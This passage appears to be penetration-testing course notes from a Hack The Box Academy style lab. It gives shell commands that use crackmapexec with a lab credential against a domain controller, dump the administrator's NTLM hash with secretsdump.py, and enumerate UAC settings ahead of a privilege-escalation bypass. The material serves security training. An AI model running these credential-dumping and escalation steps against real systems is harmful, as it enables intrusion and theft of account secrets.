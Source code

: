    ```sh
    # on attacker machine
    # for post-exploitation

    crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
    # where 10.129.43.9 is the domain controller IP

    # fetch NTLM password hashes from DC
    secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
    ```

## Attacking the OS

* User Account Control (UAC):

    ```sh
    whoami /user

    net localgroup administrators

    # current user is in admin group
    # but it is unprivileged due to UAC - only Administrator account can bypass UAC at default setting

    whoami /priv
    # only shows normal user rights and not admin rights

    # no CLI version of UAC consent prompt
    # so we need to bypass UAC for privesc

    # first, confirm if UAC is enabled
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

    # check UAC level
    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
    # value of 'ConsentPromptBehaviorAdmin' is '0x5'
    # highest UAC level of 'Always notify' is enabled
    ```
